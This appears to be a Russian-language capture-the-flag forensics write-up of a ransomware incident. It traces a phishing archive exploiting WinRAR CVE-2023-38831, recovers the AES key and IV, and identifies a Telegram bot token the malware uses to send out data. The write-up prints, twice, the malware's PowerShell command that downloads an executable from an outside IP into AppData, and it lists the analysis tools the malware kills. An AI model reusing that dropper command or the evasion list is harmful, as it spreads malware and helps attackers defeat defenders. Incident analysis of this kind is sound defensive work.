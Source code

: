 ## Windows forensics
В логах `event viewer` можно найти примерно момент времени, в который была развернута малварь, с помощью данной команды `powershell`:
```powershell
powershell -command ($drop=Join-Path -Path $env:APPDATA -ChildPath Rjomba.exe);
(New-Object System.Net.WebClient).DownloadFile('http://95.169.192.220:8080/prikol.exe', $drop); 
```
Видно, что команда скачивает файл `prikol.exe` в `c:\Users\\<наш пользователь>\AppData\Roaming\Rjomba.exe`
Примерно в то же время можно заметить какие-то события от `Outlook`, так что мы посмотрели его файлы. Посмотрев в типичное место для файлов `Outlook`, мы нашли файл `company_worker123@rambler.ru.ost` - незашифрованный файл с письмами пользователя. Проанализировав его, мы нашли письмо с вложением - `classic.rar`.  Впоследствии, в файле был найден вредоносный код, который эксплуатировал уязвимость, чтобы исполниться.

Был сделан дамп памяти - с помощью отладочного функционала `VirtualBox` сдампили физическиую память всей системы, далее с помощью `volatility3` достали оттуда дамп памяти процесса `Rjomba.exe`.  Команды для `volatility`:
```bash
python vol.py -f ~/Downloads/dump.dmp windows.pslist # узнать pid вируса
python vol.py -o . -f ~/Downloads/dump.dmp windows.memmap \
        --pid 4168 --dump # получить дамп памяти процесса вируса из дампа всей памяти
```

---

### 1. Каким образом вредоносное ПО попало на компьютер пользователя?
Пользователь открыл фишинговое письмо и распаковал архив, при распаковке которого запустилась команда выше
### 2. С какого сервера была скачана полезная нагрузка?
http://95.169.192.220:8080 - понятно из команды:
```powershell
powershell -command ($drop=Join-Path -Path $env:APPDATA -ChildPath Rjomba.exe);
(New-Object System.Net.WebClient).DownloadFile('http://95.169.192.220:8080/prikol.exe', $drop); 
```
### 3. С помощью какой уязвимости данное ВПО запустилось? В каком ПО?
Вот, что было в архиве:
```
> unpacked
├── > 'TOP_SECRET.pdf '
└── # 'TOP_SECRET.pdf .cmd'
```
Этот архив эксплуатирует уязвимость `CVE-2023-38831` в `WinRar`, чтобы исполнить `.cmd` файл, в котором и была команда, найденная в логах.
### 4. Какие методы противодействия отладке использует программа?
Проанализировав используемые функции API windows и дкомпилированный код файла `Rjomba.exe` можно сделать следующие выводы:
-   Использует `IsDebuggerPresent` и `CheckRemoteDebuggerPresent` - встроенные функции библиотеки windows, которыя проверяют, отлаживается ли программа. Если программа отлаживается, файлы не шифруются, а процессы отладчиков убиваются с помощью `TerminateProcess`
-   Обфусцированные строчки
-   Проверяет, стоят ли в нем брейкпоинты
-   убивает все процессы, которые считает дебаггером. (`Taskmgr.exe`, `procexp.exe`, `procexp64a.exe`, `AnVir.exe`, `anvir64.exe`, `dumpcap.exe`, `ollydbg.exe`, `tcpview.exe`, `autoruns.exe`, `autorunsc.exe`, `filemon.exe`, `procmon.exe`, `regmon.exe`, `Wireshark.exe` и другие, нашли в дампе памяти)
### 5. Какой алгоритм шифрования используется при шифровании данных?
Посмотрев названия функций `prikol.exe` в `ghidra`, можно заметить названия вроде `CBC_Encryption`, что означает что алгоритм - `AES` в режиме `CBC`. Длина ключа - 256 бит, мы смогли понять это, так как шифровали тексты разных размеров и смотрели на длину итогового шифртекста.
### 6. Какой ключ шифрования используется при шифровании данных?
Далее с помощью `strings` и `grep -E` нашли все строки, длина которых совпадала с предполагаемой длиной ключа. Осмысленными из них были лишь две:
 
 - `amogusamogusamogusamogusamogusam`
 - `sugomasugomasugomasugomasugomasu`
Далее мы подошли к жюри и успешно сдали эти строчки.
### 7. Куда злоумышленник отсылает собранные данные? Каким образом  аутентифицируется на endpoint?
Поискав в дампе памяти системы можно было найти url - `https://api.telegram.org/bot7029575943:AAFNYmmW_QqqMcaHZ-DFRn3M05DptExeAGE`  - значит, что злоумешленник отправлял данные боту в `telegram`, а аутентифицировался с помощью ключа `7029575943:AAFNYmmW_QqqMcaHZ-DFRn3M05DptExeAGE`
### 8. Каково содержимое расшифрованного файла pass.txt на рабочем столе?
Так как `AES` использовался в режиме `CBC`, то чтобы расшифровать его, нам нужно было получить секретный initial vector. Поискав в дампе памяти и попробовав оттуда разные строки, было обнаружено что строка `abababababababab` выдавала пароль, который принимали жюри.

Расшифрованное содержимое `pass.txt`:
```
sFYZ#2z9VdUR9sm`3JRz
```